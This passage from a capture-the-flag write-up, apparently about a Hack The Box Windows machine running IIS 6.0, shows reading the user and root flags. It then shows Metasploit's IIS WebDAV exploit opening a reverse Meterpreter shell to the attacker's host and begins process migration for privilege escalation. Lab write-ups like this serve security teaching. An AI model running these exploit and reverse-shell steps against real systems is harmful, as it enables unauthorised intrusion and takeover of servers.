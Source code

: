 ```
nt authority\system
```

### Obtaining user flag

```
C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
<Redacted user flag>
```
### Obtaining root flag

```
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
```

## Post-Exploitation
### Privilege Escalation using Metasploit
Before we even start to do any privilege escalation using Metasploit, we would first need to capture the reverse shell on Metaploit. 

For that to take place, we would first need to create a reverse shell. However, what is different from the previous exploit that we have done is that, we will be using a Metasploit exploit from [here](https://www.exploit-db.com/exploits/41992) since we know that the web server is using IIS 6.0

```
msf6 > use exploit/windows/iis/iis_webdav_scstoragepathfromurl 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set LHOST 10.10.16.8
LHOST => 10.10.16.8
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOSTS 10.10.10.15
RHOSTS => 10.10.10.15
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit
[*] Started reverse TCP handler on 10.10.16.8:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.16.8:4444 -> 10.10.10.15:1107) at 2022-01-08 07:43:59 -0500
meterpreter > shell
[-] Failed to spawn shell with thread impersonation. Retrying without it.
Process 1544 created.
Channel 2 created.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```
However, before we continue we would need to migrate to a more stable and privileged process so that we will not be getting privileged denied when we try to execute the exploits. We will first need to list the processes using ```ps``` and afterwards, we will then need to find the process number for any processes with ```NT AUTHORITY\NETWORK SERVICE``` privileges. Lastly, we will have to background this session.
